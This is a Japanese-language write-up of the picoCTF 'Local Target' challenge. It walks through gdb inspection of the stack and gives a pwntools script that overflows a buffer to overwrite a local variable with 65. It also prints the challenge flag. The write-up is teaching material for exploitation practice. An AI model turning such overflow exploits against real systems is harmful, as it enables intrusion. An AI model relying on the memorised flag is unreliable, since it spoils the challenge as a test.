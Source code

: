# Local Target:Binary Exploitation

Smash the stack  
Can you overflow the buffer and modify the other local variable? The program is available [here](local-target). You can view source [here](local-target.c). And connect with it using: `nc saturn.picoctf.net 60800`

# Solution

とりあえず、`nc saturn.picoctf.net 60800`を実行してみる。
```
$ nc saturn.picoctf.net 60800
Enter a string: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

num is 1633771873
Bye!
```
1633771873=0x61616161なので、aが4文字分出力されている。
ソースコードを見てみる。
```c
if( num == 65 ){
    printf("You win!\n");
    fflush(stdout);
    // Open file
    fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open file.\n");
        fflush(stdout);
        exit(0);
    }
```
出力される数字が65であれば良いようだ。
```c
int num = 64;
```
とあり、逆アセンブルの結果、このnumは
```
0x0000000000401242 <+12>:    mov    DWORD PTR [rbp-0x8],0x40
```
rbp-0x8にあるようだ。バッファオーバーフローさせてrbp-0x8を65=0x41に書き換える。
main+68にブレイクポイントを設定してバッファオーバーフローさせたときのrbpを見てみる。
```
(gdb) break *main+68
Breakpoint 1 at 0x40127a
(gdb) r
Starting program: /home/colza-picoctf/local-target 
warning: Error disabling address space randomization: Operation not permitted
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Enter a string: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Breakpoint 1, 0x000000000040127a in main ()
(gdb) x/100bx $rbp-0x8
0x7fff61eb63e8: 0x61    0x61    0x61    0x61    0x61    0x61    0x61    0x61
0x7fff61eb63f0: 0x61    0x61    0x61    0x61    0x61    0x61    0x61    0x61
0x7fff61eb63f8: 0x61    0x61    0x61    0x61    0x61    0x61    0x61    0x61
0x7fff61eb6400: 0x61    0x61    0x61    0x61    0x61    0x61    0x61    0x61
0x7fff61eb6408: 0x00    0x12    0x40    0x00    0x00    0x00    0x00    0x00
```
aが32文字分ある。56文字入力したので`24文字+65`を入力すれば良さそう。
以下、実行コード。
```python solve.py
from pwn import *

p = remote("saturn.picoctf.net", 60800)

payload = b"a"*24
payload += p64(0x00000041)

p.sendline(payload)

p.interactive()
```
実行してみる。
```
Enter a string: 
num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_ee58441a}
```
flagが得られた。

`picoCTF{l0c4l5_1n_5c0p3_ee58441a}`
